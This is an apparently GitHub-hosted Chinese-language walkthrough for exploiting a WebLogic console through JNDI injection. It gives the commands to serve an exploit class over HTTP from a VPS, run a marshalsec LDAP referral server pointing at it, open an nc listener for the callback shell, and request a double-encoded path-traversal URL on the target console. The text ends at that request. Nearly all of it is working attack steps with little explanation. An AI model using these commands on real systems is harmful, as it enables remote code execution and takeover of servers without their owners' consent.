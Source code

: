 vps利用python开启临时http服务。

vps执行：python -m SimpleHTTPServer 8888

![Dingtalk_20220331103045](.\image\Dingtalk_20220331103045.jpg)

vps利用marshalsec-0.0.3-SNAPSHOT-all.jar开启ldap监听。

vps执行：java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://监听IP:监听端口/#Exploit" 1099

![Dingtalk_20220331103344](.\image\Dingtalk_20220331103344.jpg)

vps开启nc监听。

![Dingtalk_20220331103432](.\image\Dingtalk_20220331103432.jpg)

本机访问如下URL并抓取数据包。

http://目标主机域名或IP:端口/console/css/%252e%252e%252f/consolejndi.portal

![Dingtalk_20220331105123](.\image\Dingtalk_20220331105123.jpg)
